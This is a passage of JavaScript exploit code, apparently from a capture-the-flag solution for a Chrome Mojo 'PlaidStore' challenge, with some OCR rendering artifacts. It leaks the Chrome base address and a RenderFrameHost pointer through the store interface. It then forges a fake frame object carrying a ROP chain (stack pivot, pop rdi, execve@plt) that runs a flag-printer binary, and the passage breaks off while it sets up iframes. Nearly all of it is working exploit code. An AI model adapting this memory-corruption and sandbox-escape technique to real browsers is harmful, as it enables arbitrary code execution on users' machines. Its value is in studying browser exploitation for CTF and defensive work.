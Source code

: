 ```
        tmp[0]=i;
        tmp[1]=0x13;
        tmp[2]=0x37;
        tmp[3]=0x13;
        tmp[4]=0x37;
        tmp[5]=0x13;
        tmp[6]=0x37;
        tmp[7]=0x13;
        await p.storeData("yeet"+i,tmp);
        stores[i] = blink.mojom.PlaidStore.getRemote(true)
    `}`
    let chromeBase = 0;
    let renderFrameHost = 0;
    for(let i = 0;i&lt;0x40&amp;&amp;chromeBase==0;i++)`{`
        let d = (await p.getData("yeet"+i,0x200)).data;
        let u8 = new Uint8Array(d)
        let u64 = new BigInt64Array(u8.buffer);
        for(let j = 5;j&lt;u64.length;j++)`{`
            let l = u64[j]&amp;BigInt(0xf00000000000)
            let h = u64[j]&amp;BigInt(0x000000000fff)
            if((l==BigInt(0x500000000000))&amp;&amp;h==BigInt(0x7a0))`{`
                show(i.toString(16)+' '+j+' 0x'+u64[j].toString(16));

                chromeBase = u64[j]-BigInt(0x9fb67a0);
                renderFrameHost = u64[j+1];
                break;
            `}`
        `}`
    `}`
    show("ChromeBase: 0x"+chromeBase.toString(16));
    show("renderFrameHost: 0x"+renderFrameHost.toString(16));

    const kRenderFrameHostSize = 0xc28;

    var frameData = new ArrayBuffer(kRenderFrameHostSize);
    var frameData8 = new Uint8Array(frameData).fill(0x0);
    var frameDataView = new DataView(frameData)    
    var ropChainView = new BigInt64Array(frameData,0x10);
    frameDataView.setBigInt64(0x160+0x10,chromeBase + 0x880dee8n,true); //xchg rax, rsp 
    frameDataView.setBigInt64(0x180, 0x2f686f6d652f6368n,false);
    frameDataView.setBigInt64(0x188, 0x726f6d652f666c61n,false);
    frameDataView.setBigInt64(0x190, 0x675f7072696e7465n,false);// /home/chrome/flag_printer; big-endian
    frameDataView.setBigInt64(0x198, 0x7200000000000000n,false);// /home/chrome/flag_printer; big-endian
    ropChainView[0] = 0xdeadbeefn; // RIP rbp :&lt;
    ropChainView[1] = chromeBase + 0x2e4630fn; //pop rdi;
    ropChainView[2] = 0x4141414141414141n; // frameaddr+0x180
    ropChainView[3] = chromeBase + 0x2e651ddn; // pop rax;
    ropChainView[4] = chromeBase + 0x9efca30n; // execve@plt
    ropChainView[5] = chromeBase + 0x8d08a16n; // xor rsi, rsi; pop rbp; jmp rax
    ropChainView[6] = 0xdeadbeefn; // rbp
    //Constrait: rdx = 0; rdi pointed to ./flag_reader
    var allocateFrame = () =&gt;`{`
        var frame = document.createElement("iframe");

        frame.srcdoc=`&lt;script src="../mojo/public/js/mojo_bindings_lite.js"&gt;&lt;/script&gt;
        &lt;script src="../third_party/blink/public/mojom/plaidstore/plaidstore.mojom-lite.js"&gt;&lt;/script&gt;
            &lt;script&gt;
              let p = blink.mojom.PlaidStore.getRemote(true);
              window.p = p;
            async function leak() `{`
```